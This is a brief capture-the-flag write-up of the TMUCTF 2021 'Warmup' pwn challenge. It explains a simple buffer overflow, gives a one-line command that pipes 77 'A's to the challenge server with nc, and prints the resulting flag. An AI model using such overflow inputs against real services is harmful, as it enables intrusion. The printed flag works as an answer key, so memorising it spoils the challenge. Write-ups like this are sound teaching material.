 # Warmup

## Challenge Description
![Challenge Description](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Warmup/challenge.png)

## Writeup
This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
